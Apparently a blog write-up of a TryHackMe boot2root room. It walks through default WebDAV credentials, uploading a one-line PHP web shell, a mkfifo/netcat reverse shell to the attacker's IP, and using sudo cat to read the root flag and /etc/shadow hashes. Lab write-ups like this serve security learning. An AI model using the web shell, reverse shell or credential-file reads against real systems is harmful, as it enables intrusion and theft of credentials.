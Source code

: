 ```yaml
---
layout: post
title:  "THM: Dav"
date:   2020-12-28 22:00:00 +1100
category: hacking
---
```


## Introduction
*boot2root machine for FIT and bsides guatemala CTF*

This is [Dav](https://tryhackme.com/room/bsidesgtdav) from THM. This one is ranked as easy and doesn't give much in the way of hints as to what it's about.

## Ports
HTTP only; makes it simple.

## HTTP
Running a basic gobuster turns up a single page: */webdav*. This has basic authentication turned on; let's try some default credentials: **wampp:xampp** - success! We find some *more* credentials:

>wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

But I can't crack the hash, and at this stage I don't have anywhere to use it anyway. What else can we do? I've never done webdav before. 

This [blog](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/) gives some instructions; essentially we can use a command line tool called cadaver to connect and it provides a connection somewhat like FTP or SMB.

{% highlight shell %}
root@kali:/opt/tryhackme/dav# cadaver 
dav:!> open http://10.10.49.116/webdav
Authentication required for webdav on server `10.10.49.116':
Username: wampp
Password: 
dav:/webdav/> id
Unrecognised command. Type 'help' for a list of commands.
dav:/webdav/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
{% endhighlight %}

## Shell
Using this interface I upload some PHP code to a file called *cmd.php*

><?php system($_GET['cmd']);?>

From there, I can issue a shell command with Burp Repeater:

``
GET /webdav/cmd.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.9.10.123+1234+>/tmp/f HTTP/1.1
``

## Privsec
I run linpeas; we can run *cat* as root. From there we get the root flag and can also read the shadow file if we want:

{% highlight shell %}
www-data@ubuntu:/dev/shm$ sudo -u root /bin/cat /root/root.txt
sudo -u root /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
www-data@ubuntu:/dev/shm$ sudo -u root /bin/cat /etc/shadow
sudo -u root /bin/cat /etc/shadow
root:!:18134:0:99999:7:::
OTHERS REMOVED
merlin:$1$EWeeql.h$8mH.7rEhPRGsOb5ECtmIe1:18134:0:99999:7:::
sshd:*:18134:0:99999:7:::
wampp:$6$f8LMirW0$43znQ5kMsELDO9BdUmhbGkUEnVH2OKXZjfEtsyUgbvL79KoJtgLkdbJpHw4OuDDIMtaXjGjkjaRKDv1FFxKsr/:18134:0:99999:7:::
www-data@ubuntu:/dev/shm$ root@kali:/opt/tryhackme/dav# 
{% endhighlight %}

So that was pretty straightforward.
